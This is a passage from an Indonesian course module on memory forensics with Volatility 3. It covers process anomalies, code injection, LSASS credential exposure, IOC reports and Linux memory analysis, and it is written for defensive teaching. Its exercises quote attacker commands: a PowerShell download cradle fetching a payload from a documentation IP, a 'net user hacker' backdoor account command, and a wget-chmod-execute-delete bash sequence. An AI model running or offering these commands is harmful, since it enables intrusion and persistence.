2. **Anti-forensics:** Rootkit canggih dapat menyembunyikan proses dari EPROCESS list (DKOM). Volatility `psscan` vs `pslist` dapat mengungkap ini, namun bukan 100% reliable.
3. **Paging:** Sebagian data mungkin sudah di-page ke disk dan tidak ada di RAM — ini akan muncul sebagai unreadable dalam analisis.
4. **Enkripsi di RAM:** Beberapa malware mengenkripsi payload bahkan di RAM, sehingga analisis menjadi sangat sulit.
5. **Interpretasi:** Menemukan suspicious process bukan berarti itu malware — harus dikombinasikan dengan bukti lain.

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Analisis memory dump dari dataset publik (SANS Forensics CTF sample):**

```bash
# Menggunakan dataset yang disediakan dosen (contoh: memdump dari SANS FOR508 sample)
# Bukan sistem nyata

# Langkah 1: Identifikasi OS
volatility3 -f memdump.mem windows.info 2>/dev/null | grep "SystemTime\|Major"
# SystemTime 2025-10-29 03:42:17
# Major/Minor 15.19041 → Windows 10 build 19041

# Langkah 2: Process anomaly hunting
volatility3 -f memdump.mem windows.pslist 2>/dev/null | \
    awk 'NR==1 || $3~/powershell|cmd|wscript|mshta|regsvr32|rundll32/'
# Filter untuk shell-like dan LOLBins

# Langkah 3: Check network connections dari proses mencurigakan
volatility3 -f memdump.mem windows.netscan 2>/dev/null | grep "ESTABLISHED"

# Langkah 4: Investigate suspicious process cmdline
volatility3 -f memdump.mem windows.cmdline 2>/dev/null | grep -A2 "powershell"
# Cari encoded command (Base64 dalam -EncodedCommand) atau download cradle

# Langkah 5: Malfind untuk shellcode/injection
volatility3 -f memdump.mem windows.malfind 2>/dev/null | head -50
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melakukan memory forensics dasar menggunakan Volatility 3 pada dataset yang disediakan.

**Aktivitas (menggunakan dataset publik/legal yang disediakan dosen):**
1. Instal Volatility 3 di lab VM.
2. Terima memory dump dari dosen (dataset legal yang sudah di-sanitasi).
3. Jalankan: `windows.info`, `windows.pslist`, `windows.pstree`, `windows.netscan`.
4. Identifikasi minimum 3 artefak yang mencurigakan dengan justifikasi.
5. Dokumentasikan: tool + versi, command yang digunakan, output (screenshot atau text), interpretasi, dan keterbatasan.

**Output:** Memory analysis report + evidence pack — bagian dari Eval-2.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa `windows.psscan` lebih reliable daripada `windows.pslist` untuk mendeteksi proses yang disembunyikan rootkit? Jelaskan perbedaan mekanisme kerja keduanya.

2. **(C4)** Anda menemukan bahwa `lsass.exe` memiliki PPID yang berbeda dari yang seharusnya. Apa implikasi temuan ini dari perspektif keamanan?

3. **(C3)** Apa yang dimaksud dengan "fileless malware" dan mengapa memory forensics adalah satu-satunya cara untuk mendeteksinya?

## 9. Latihan Terapan / Studi Kasus

Anda menerima memory dump dari workstation yang diduga dikompromis. Analisis awal menggunakan `windows.pslist` menunjukkan proses `svchost.exe` dengan PID 4524 yang memiliki PPID 3892 (bukan services.exe!). `windows.netscan` menunjukkan PID 4524 memiliki koneksi ESTABLISHED ke 198.51.100.45:443. `windows.malfind` menunjukkan 2 memory regions dalam PID 4524 yang mengandung PE header namun tidak terkait file di disk. (a) Apa kesimpulan sementara Anda? (b) Langkah analisis lanjutan apa yang akan dilakukan? (c) Informasi tambahan apa yang diperlukan untuk mengkonfirmasi atau membantah kesimpulan? (d) Apa keterbatasan analisis ini yang harus disebutkan dalam laporan?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** `windows.pslist` membaca daftar proses dari EPROCESS doubly-linked list yang dikelola kernel. Rootkit dapat memanipulasi list ini (DKOM — Direct Kernel Object Manipulation) untuk menyembunyikan proses dengan "memotong" link dari list. `windows.psscan` bekerja berbeda: ia tidak membaca linked list, melainkan men-scan seluruh memory secara brute-force untuk mencari pola/signature struktur EPROCESS. Proses yang disembunyikan dari linked list tetap ada di memori dan akan ditemukan oleh psscan. Membandingkan pslist dan psscan: proses yang ada di psscan tapi tidak di pslist = potential hidden process (rootkit indicator).

**Soal 2:** `lsass.exe` (Local Security Authority Subsystem Service) seharusnya memiliki parent `wininit.exe` — selalu. Jika PPID-nya berbeda: (a) kemungkinan ada proses yang menyamar sebagai lsass.exe (masquerading) — attacker membuat proses bernama lsass.exe tetapi bukan lsass yang legitimate; (b) bisa jadi ada process injection ke dalam lsass yang sesungguhnya, dan varian baru spawn sebagai child dari proses lain; (c) lsass adalah target bernilai tinggi karena menyimpan password hash, Kerberos tickets, dan credential NTLM — compromise pada lsass memungkinkan credential harvesting. Verifikasi lanjutan: cek path executable (`windows.cmdline`), hash file executable, dan apakah ada 2 proses bernama lsass.exe (seharusnya hanya satu).

**Soal 3:** Fileless malware beroperasi sepenuhnya dalam memori tanpa menulis file executable ke disk. Biasanya: injected ke dalam proses legitimate yang sudah berjalan (PowerShell, cmd.exe, notepad.exe); menggunakan LOLBins (Living off the Land Binaries — tools bawaan Windows); payload mungkin di-download langsung ke memori dan dieksekusi tanpa menyentuh disk. Karena tidak ada file di disk: antivirus tradisional (file-based scanning) tidak mendeteksinya; file system forensics tidak menemukan executable mencurigakan; hanya analisis memori yang dapat melihat kode yang sedang berjalan dalam RAM.

**Studi Kasus:** (a) Kesimpulan sementara: svchost.exe dengan PPID yang salah + koneksi outbound ESTABLISHED + PE injection dalam memorinya → high confidence ini adalah malware yang di-inject ke dalam proses svchost.exe palsu (atau injected ke svchost legitimate). Ini adalah pola umum process hollowing atau injection. (b) Langkah lanjutan: `windows.cmdline --pid 4524` untuk melihat command line arguments; `windows.dlllist --pid 4524` untuk melihat DLL yang di-load; `windows.malfind --pid 4524` untuk melihat detail PE injection; resolusi IP 198.51.100.45 (siapa pemilik IP ini? TI/threat intel query); `windows.handles --pid 4524` untuk lihat file/registry yang diakses. (c) Informasi tambahan: threat intelligence tentang IP 198.51.100.45; hash dari executable yang di-dump dari malfind (dibandingkan dengan VirusTotal atau threat feed); disk artifacts (prefetch, registry) untuk timeline kapan ini mulai. (d) Keterbatasan yang wajib disebutkan: ini adalah snapshot satu titik waktu; tidak bisa tahu apa yang terjadi sebelum dump dibuat; IP koneksi bisa saja legitimate (false positive) — harus diverifikasi dengan TI; malfind menghasilkan false positives untuk DRM software dan beberapa aplikasi legitimate yang menggunakan self-modifying code.

## 11. Ringkasan Bab

Memory forensics adalah esensial untuk mendeteksi fileless malware dan melihat state sistem saat insiden. Volatility 3 menyediakan plugins untuk: pslist/psscan (proses), pstree (hierarki), netscan (koneksi), dlllist (modul), malfind (injection detection). Anomali kunci: PPID yang salah, proses masquerading, koneksi dari proses tidak terduga, dan PE injection dalam memori. Keterbatasan harus selalu disebutkan: snapshot satu titik waktu, paging, anti-forensics, dan potensi false positives.

## 12. Refleksi Profesional

1. Volatility adalah tool open-source yang powerful, namun versi berbeda menghasilkan output yang berbeda. Dalam laporan forensik yang akan digunakan sebagai bukti, bagaimana Anda memastikan bahwa temuan dapat direproduksi oleh investigator lain dengan versi tool yang berbeda? Apa yang harus Anda dokumentasikan?

---

# BAB 5 — MEMORY FORENSICS LANJUTAN: INJEKSI KODE DAN KREDENSIAL

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi teknik injeksi kode dalam memori (process hollowing, DLL injection)
- Mendeteksi artefak credential exposure dalam memori (hash, tickets)
- Menganalisis registry artefak yang di-cache dalam memori
- Mengkorelasikan temuan memori dengan indikator kompromi (IOC)

*Berkaitan dengan Sub-CPMK-2, Eval-2 (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Memory Forensics Lanjutan] --> B[Code Injection Techniques]
    B --> B1["Process Hollowing:\nganti konten proses\nlegitimate dengan malware"]
    B --> B2["DLL Injection:\nmasukkan malicious DLL\nke dalam proses legitimate"]
    B --> B3["Reflective DLL:\nmuat DLL tanpa\nmenggunakan LoadLibrary API"]
    B --> B4["Process Doppelgänging:\ngunakan NTFS transactions\nuntuk bypass detection"]
    A --> C[Credential Exposure]
    C --> C1["LSASS memory:\nmenyimpan password hashes,\nKerberos tickets, cleartext pass"]
    C --> C2["Mimikatz indicators:\nSeDebugPrivilege + LSASS access"]
    C --> C3["SAM & SYSTEM hive\ncached dalam memory"]
    C --> C4["Vault credentials:\nbrowser, RDP saved credentials"]
    A --> D[Registry Artefacts in Memory]
    D --> D1["Hive loading:\nSAM, SYSTEM, SECURITY, NTUSER.DAT"]
    D --> D2["Run keys:\nautostart entries"]
    D --> D3["Recent activity:\nMRU lists, shellbags"]
    A --> E[IOC Generation]
    E --> E1["IP addresses & domains\ndari network connections"]
    E --> E2["File hashes dari\ndumped memory regions"]
    E --> E3["Registry keys yang\ndimodifikasi malware"]
    E --> E4["Mutex names:\nmalware sering membuat mutex\nuntuk prevent re-infection"]
```

## 3. Pengantar Kontekstual

Setelah menemukan proses mencurigakan dalam memory dump (Bab 4), langkah selanjutnya adalah memahami apa yang proses tersebut lakukan dan apa dampaknya. Apakah ada kode yang di-inject ke dalam proses legitimate? Apakah credential pengguna sudah di-harvest? Apakah attacker meninggalkan backdoor? Bab ini membahas teknik-teknik injeksi kode yang umum digunakan oleh malware modern dan cara mendeteksinya dalam forensic analysis.

## 4. Landasan Teori

### 4.1 Teknik Injeksi Kode: Deteksi dalam Memory

**Process Hollowing** (RunPE):
```
Langkah normal process hollowing:
1. Attacker membuat proses legitimate baru (misalnya svchost.exe) dalam suspended state
2. "Hollow out" memory image dari proses tersebut
3. Tulis malware payload ke dalam space yang sudah dikosongkan
4. Resume proses — sekarang menjalankan malware dalam "baju" svchost.exe

Indikator dalam memory forensics:
- ImageFileName vs executable di disk berbeda (sections tidak match)
- Proses yang seharusnya berasal dari System32 memiliki base image di lokasi berbeda
- Memory sections dengan execute+write permission (executable yang di-tulis ulang)
```

```bash
# Deteksi process hollowing dengan Volatility:
# windows.dlllist untuk process yang mencurigakan
volatility3 -f memdump.mem windows.dlllist --pid 4524

# Bandingkan image base address dengan apa yang seharusnya ada di disk
# Jika ada perbedaan → potential hollowing

# windows.malfind untuk detect injected executable sections:
volatility3 -f memdump.mem windows.malfind --pid 4524
# Look for: memory regions dengan MZ header (0x4D5A) yang bukan dari mapped file

# Dump region yang mencurigakan untuk analisis lebih lanjut:
# (dalam konteks lab berotorisasi)
volatility3 -f memdump.mem windows.dumpfiles --pid 4524 -o /output/
sha256sum /output/*.dat
# Hash untuk cross-reference dengan threat intel
```

### 4.2 Credential Exposure: LSASS dan Mimikatz Artifacts

**LSASS (Local Security Authority Subsystem Service)** menyimpan:
- NTLM password hashes
- Kerberos tickets (TGT, TGS)
- Cleartext passwords (pada Windows dengan WDigest enabled — biasanya pre-Win8)
- Cached domain credentials

**Mendeteksi Mimikatz-style credential harvesting:**
```bash
# Cek apakah ada proses yang mengakses LSASS memory:
volatility3 -f memdump.mem windows.handles --pid <suspicious_pid> | grep -i "lsass\|SeDebugPrivilege"

# Cek privilege yang dimiliki proses:
volatility3 -f memdump.mem windows.privileges --pid <suspicious_pid>
# Jika ada SeDebugPrivilege enabled untuk proses non-system → suspicious
# Mimikatz memerlukan SeDebugPrivilege untuk membaca LSASS

# Cek process yang membuka handle ke LSASS:
volatility3 -f memdump.mem windows.handles | grep "lsass"
# Normal: Antivirus, EDR, system processes
# Suspicious: cmd.exe, powershell.exe, atau unknown process

# Strings dalam memory region yang dicurigakan:
volatility3 -f memdump.mem windows.strings --pid <pid>
# Cari strings: "mimikatz", "sekurlsa", "lsadump", "kerberos::list"
```

**Menganalisis cached registry hives dalam memori:**
```bash
# List registry hives yang di-load dalam memori:
volatility3 -f memdump.mem windows.registry.hivelist

# Output contoh:
# Offset (V)    Offset (P)    FileFullPath
# ...           ...           \REGISTRY\MACHINE\SYSTEM
# ...           ...           \REGISTRY\MACHINE\SAM
# ...           ...           \Device\HarddiskVolume3\Users\admin01\NTUSER.DAT

# Query value registry spesifik (Run keys untuk autostart malware):
volatility3 -f memdump.mem windows.registry.printkey \
    --key "Software\Microsoft\Windows\CurrentVersion\Run"

# Jika ada entry Run key yang tidak dikenal → potential persistence mechanism
```

### 4.3 Generating IOCs dari Memory Analysis

Indikator kompromi (IOC) yang dihasilkan dari memory forensics:

```markdown
## IOC Report dari Memory Analysis — Case CF-2025-001 — EID-001

### Network IOCs
| Type | Value | Source | Confidence |
|---|---|---|---|
| IPv4 | 198.51.100.45 | windows.netscan, PID 4524 | High |
| Port | 443/TCP | windows.netscan, koneksi outbound | High |

### File/Process IOCs
| Type | Value | Source | Confidence |
|---|---|---|---|
| Process name | svchost.exe (PPID anomaly) | windows.pstree | High |
| Hash (memory dump) | sha256:a3b4c5... | windows.malfind dump | Medium |

### Registry IOCs
| Type | Value | Source | Confidence |
|---|---|---|---|
| Run key | HKCU\...\Run\UpdateHelper = C:\Users\Temp\svc.exe | windows.registry | High |

### Keterbatasan IOCs ini:
- IP 198.51.100.45 belum diverifikasi dengan threat intel — mungkin false positive
- Hash dari memory region belum dikonfirmasi sebagai malware yang dikenal
- Registry entry memerlukan verifikasi di disk untuk konfirmasi
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Template IOC generation untuk laporan:**

```markdown
## Memory Forensics Findings Summary — Case CF-2025-001

### Temuan Utama
Process `svchost.exe` (PID 4524) memiliki karakteristik anomali berikut:
1. Parent process tidak wajar (PPID 3892 = explorer.exe, seharusnya services.exe)
2. Koneksi outbound ESTABLISHED ke 198.51.100.45:443
3. Dua memory region dengan PE header yang tidak terkait file di disk (windows.malfind)
4. DLL loaded dari %TEMP% directory (bukan System32)

### Interpretasi
Temuan-temuan ini konsisten dengan Process Hollowing atau DLL injection — teknik
di mana attacker menyembunyikan malware dalam proses legitimate yang sudah ada.
Koneksi ke 198.51.100.45 dapat merupakan command-and-control (C2) communication.

### Keterbatasan Analisis
- Hash dari dumped regions belum dikonfirmasi sebagai malware yang dikenal
- IP 198.51.100.45 belum di-query ke threat intelligence — mungkin false positive
- Analisis ini adalah snapshot satu titik waktu — tidak bisa tahu aktivitas sebelumnya
- Tidak ada analisis disk dalam laporan ini yang dapat memperkuat temuan

### Rekomendasi Tindak Lanjut
1. Cross-reference IP dengan threat intel feed (VirusTotal, MISP, commercial feed)
2. Analyze disk artifacts dari sistem yang sama untuk corroboration
3. Check network logs untuk koneksi historis ke IP tersebut
4. Isolasi sistem dari network segera jika threat intel mengkonfirmasi C2
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melakukan analisis injeksi kode dan IOC generation dari memory dump.

**Aktivitas (dataset legal yang disediakan dosen):**
1. Gunakan memory dump dari Bab 4 (atau dataset baru dari dosen).
2. Jalankan `windows.malfind` — identifikasi memory regions mencurigakan.
3. Dump 1–2 memory regions yang mencurigakan.
4. Hitung hash dari dumped regions.
5. Cek privilege proses mencurigakan (`windows.privileges`).
6. Cek handles ke LSASS (`windows.handles | grep lsass`).
7. Buat IOC report menggunakan template yang diberikan.

**Output:** IOC report + evidence pack — bagian dari Eval-2.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa Process Hollowing lebih sulit dideteksi daripada menjalankan malware sebagai proses baru? Apa yang dilakukan oleh analisis memori untuk mengungkapkannya?

2. **(C5)** Evaluasi confidence level dari IOC berikut: (a) IP address ditemukan dalam network connections dari proses suspicious dalam memory; (b) Nama mutex yang unik ditemukan dalam string analysis memory dump. Mana yang lebih reliable sebagai IOC dan mengapa?

## 9. Latihan Terapan / Studi Kasus

Anda menemukan dalam memory dump bahwa `powershell.exe` (PID 5212) memiliki: (1) command line yang terenkode Base64 (`-EncodedCommand SQBFAFgAIAAo...`); (2) koneksi ke 203.0.113.88:4444; (3) child process `cmd.exe` yang kemudian menjalankan `net user hacker P@ssw0rd /add`. (a) Decode-lah Base64 command (dalam lingkungan lab) dan interpretasikan apa yang dilakukan; (b) Apa artinya `net user ... /add` dalam konteks insiden? (c) Buat IOC list dari temuan ini; (d) Apa langkah respons insiden yang direkomendasikan berdasarkan temuan ini?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Process Hollowing lebih sulit dideteksi karena: (a) dari sudut pandang process list, yang terlihat adalah proses legitimate (svchost.exe, notepad.exe) — namanya benar, path-nya mungkin benar; (b) traditional antivirus yang berbasis nama proses dan path tidak akan menandainya; (c) beberapa EDR yang kurang canggih hanya memeriksa nama/path proses. Memory forensics mengungkapkannya dengan: membandingkan content memory dari proses dengan file executable di disk yang seharusnya sama (mereka berbeda); mencari PE header dalam memory regions yang tidak di-map dari file (malfind); memeriksa VAD entries untuk inkonsistensi antara protection flags dan content.

**Soal 2:** (a) IP address dari network connection: Medium confidence. IP bisa berubah (CDN, shared hosting, legitimate cloud service yang dicompromised), bisa false positive (IP legitimate yang secara kebetulan diquery). Reliability meningkat jika dikonfirmasi oleh threat intel feed. (b) Mutex name yang unik: High confidence sebagai IOC. Mutex name spesifik yang dipilih malware developer sering sangat unik dan tidak mungkin muncul secara legitimate. Misalnya `Global\{98F47D2E-CC43-4B27-9A3F-D8B9C2E7A1F6}` — format GUID random ini hampir pasti dibuat oleh malware. Jika mutex yang sama ditemukan di sistem lain → konfirmasi cross-system infection.

**Studi Kasus:** (a) Base64 decode `SQBFAFgAIAAo...`: ini adalah PowerShell yang menggunakan IEX (Invoke-Expression) untuk mendownload dan mengeksekusi payload dari internet — download cradle. Dalam lab: `echo "SQBFAFgAIAAo..." | base64 -d` akan menampilkan sesuatu seperti `IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.88/payload.ps1')`. (b) `net user hacker P@ssw0rd /add` adalah perintah untuk membuat user baru bernama "hacker" dengan password "P@ssw0rd" — ini adalah persistence mechanism: attacker membuat akun backdoor agar bisa login kembali bahkan jika malware dihapus. (c) IOC list: IP 203.0.113.88 (C2 dan payload server), port 4444/TCP (common Metasploit/meterpreter port), username "hacker" (backdoor account), PowerShell encoded command pattern, Base64 payload. (d) Respons insiden: SEGERA isolasi sistem dari network (sudah ada C2 aktif); cek apakah user "hacker" berhasil dibuat (`net user`); jika ya, disable dan delete akun tersebut; cari sistem lain yang mungkin terinfeksi (lateral movement); cek log untuk aktivitas user "hacker"; incident report dan notification sesuai prosedur.

## 11. Ringkasan Bab

Injeksi kode (process hollowing, DLL injection) menyembunyikan malware dalam proses legitimate — dideteksi melalui PPID anomaly, malfind, dan perbandingan memory content dengan disk. LSASS adalah target utama credential harvesting; SeDebugPrivilege dan handle ke LSASS dari proses non-system adalah red flag. IOC generation dari memory analysis menghasilkan: IP/domain, hash, registry keys, dan mutex names — setiap IOC harus diberi confidence level dan keterbatasan.

## 12. Refleksi Profesional

1. Memory forensics dapat mengungkap credential hash atau bahkan cleartext password dari LSASS. Dalam laporan forensik yang diserahkan kepada klien, bagaimana Anda menangani credential yang ditemukan? Apakah credential tersebut dimasukkan dalam laporan? Siapa yang seharusnya menerima informasi ini? Apa implikasi privasi dan keamanan dari cara penanganan informasi ini?

---

# BAB 6 — MEMORY FORENSICS: LINUX, VALIDASI, DAN LAPORAN ANALISIS

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Melakukan memory analysis pada sistem Linux menggunakan Volatility 3
- Mengidentifikasi artefak penting dalam Linux memory dump
- Memvalidasi temuan memory forensics dengan artefak disk yang berkorelasi
- Menyusun memory forensics lab report yang lengkap dan reproducible

*Berkaitan dengan Sub-CPMK-2, Eval-2 (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Linux Memory Forensics\n& Validation] --> B[Linux vs Windows Memory]
    B --> B1["task_struct: Linux equiv EPROCESS\n(proses info)"]
    B --> B2["Volatility Linux plugins:\nlinux.pslist, linux.bash,\nlinux.netstat"]
    B --> B3["Bash history in memory:\nperintah yang belum ditulis\nke .bash_history"]
    B --> B4["Loaded kernel modules:\nlsmod equivalent\n(rootkit detection)"]
    A --> C[Linux Memory Plugins]
    C --> C1["linux.pslist / linux.pstree:\nproses Linux"]
    C --> C2["linux.bash:\nbash command history\ndari memory"]
    C --> C3["linux.netstat:\nnetwork connections"]
    C --> C4["linux.lsmod:\nloaded kernel modules\n(detect rootkit LKM)"]
    A --> D[Cross-Validation]
    D --> D1["Memory vs disk:\ntemuan memori dikonfirmasi\noleh disk artefak"]
    D --> D2["Memory vs log:\nkoneksi dalam netstat\ndikonfirmasi auth.log"]
    D --> D3["Timeline correlation:\nkapan proses mulai?\ncocok dengan log event?"]
    A --> E[Lab Report Structure]
    E --> E1["Tools & versions used"]
    E --> E2["Commands run (verbatim)"]
    E --> E3["Findings dengan evidence"]
    E --> E4["Limitation statement"]
    E --> E5["Reproducibility note"]
```

## 3. Pengantar Kontekstual

Server Linux adalah target umum dalam serangan terhadap infrastruktur cloud dan on-premises. Memahami bagaimana menganalisis Linux memory dump memberikan kemampuan untuk menginvestigasi: web server yang dikompromis, container yang di-escape, dan lateral movement di lingkungan server. Bagian terakhir dari modul memory forensics ini juga membahas cara memvalidasi temuan dan menyusun laporan yang dapat direproduksi.

## 4. Landasan Teori

### 4.1 Linux Memory Forensics dengan Volatility 3

```bash
# Linux memory analysis menggunakan dataset yang disediakan dosen

# List processes di Linux memory dump:
volatility3 -f linux_memdump.lime linux.pslist

# Tampilkan bash command history yang tersimpan dalam memori
# (perintah yang belum di-flush ke .bash_history di disk):
volatility3 -f linux_memdump.lime linux.bash

# Output contoh yang mencurigakan:
# PID    Process   CommandTime           Command
# 1234   bash      2025-10-29 03:41:22   wget http://198.51.100.45/malware.sh -O /tmp/.hidden
# 1234   bash      2025-10-29 03:41:25   chmod +x /tmp/.hidden && /tmp/.hidden
# 1234   bash      2025-10-29 03:41:30   rm -f /tmp/.hidden    <-- mencoba hapus jejak!

# Network connections:
volatility3 -f linux_memdump.lime linux.netstat

# Loaded kernel modules (detect rootkit LKM):
volatility3 -f linux_memdump.lime linux.lsmod
# Bandingkan dengan /proc/modules yang diambil saat akuisisi
# Module yang ada di memori tapi tidak di /proc/modules → rootkit!
```

### 4.2 Artefak Linux yang Penting dalam Memory

**1. Bash history in memory:** Ketika pengguna mengetik perintah di bash, perintah tersebut disimpan dalam memori sebelum di-flush ke `.bash_history`. Ini bisa mengungkap perintah yang attacker coba hapus.

**2. Loaded kernel modules:** Rootkit sering menggunakan Loadable Kernel Module (LKM) untuk menyembunyikan diri. LKM bisa menyembunyikan dirinya sendiri dari `lsmod` namun tetap ada dalam kernel memory structures yang di-scan Volatility.

**3. Open file descriptors:** File yang sedang di-buka oleh proses — bahkan file yang sudah di-delete dari filesystem (namun masih ada karena masih ada FD open).

**4. Network socket state:** Koneksi TCP yang aktif — termasuk koneksi yang sudah di-established sebelum proses sembunyi.

### 4.3 Cross-Validation: Memory vs Disk vs Log

```markdown
## Cross-Validation Matrix — Case CF-2025-001

| Temuan Memory | Corroborating Evidence | Status |
|---|---|---|
| PID 4524 koneksi ke 198.51.100.45 | Firewall log: outbound TCP 443 ke 198.51.100.45 pada 03:42 | CORROBORATED |
| Bash: `wget http://198.51.100.45/malware.sh` | /var/log/auth.log: root login pada 03:41 | CORROBORATED |
| Kernel module `hiddenrootkit.ko` (dari lsmod) | /proc/modules: tidak ada (rootkit menyembunyikan diri) | CONFIRMED ROOTKIT |
| Process PID 8821 mencurigakan | /var/log/syslog: tidak ada entry → log tampering? | UNCONFIRMED |

Catatan: Temuan yang hanya dari memory (tanpa corroboration) harus diberi confidence lebih rendah
```

### 4.4 Memory Forensics Lab Report: Struktur Wajib

```markdown
## MEMORY FORENSICS LAB REPORT

### Informasi Kasus
Case Number: CF-2025-001
Evidence Item: EID-001 (RAM dump WKST-001)
Analyst: [Nama]
Tanggal Analisis: 2025-11-02
Tools: Volatility 3 v3.6.0, Python 3.11.0 (Ubuntu 22.04 VM — lab isolated)

### 1. Tujuan Analisis
[Apa yang dicari berdasarkan hipotesis kasus]

### 2. Evidence Hash Verification
Hash SHA-256 EID-001 saat diterima: a3b4c5...
Hash SHA-256 EID-001 setelah analisis: a3b4c5... ✓ (identik)

### 3. Commands Run (verbatim — untuk reproducibility)
```
volatility3 -f /evidence/EID001_ram.mem windows.info > output/01_info.txt
volatility3 -f /evidence/EID001_ram.mem windows.pslist > output/02_pslist.txt
[... dan seterusnya]
```

### 4. Findings
[Setiap temuan dengan: deskripsi, command yang menghasilkan temuan, output relevan, interpretasi]

### 5. IOC Summary
[Tabel IOC seperti di Bab 5]

### 6. Limitation Statement
- Analisis ini adalah snapshot pada [waktu akuisisi]
- Volatility 3 v3.6.0 digunakan; versi berbeda mungkin menghasilkan output berbeda
- [Keterbatasan spesifik lainnya]

### 7. Reproducibility Note
Untuk mereproduksi analisis ini:
1. Verifikasi hash EID-001: sha256sum = a3b4c5...
2. Instal Volatility 3 v3.6.0
3. Jalankan commands yang didokumentasikan di bagian 3
4. Output harus identik dengan yang terdokumentasi di laporan ini
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Interpretasi bash history yang mengungkap attacker activity:**

```bash
# Output linux.bash dari memory dump server yang dikompromis:
# PID  Process  Time                Command
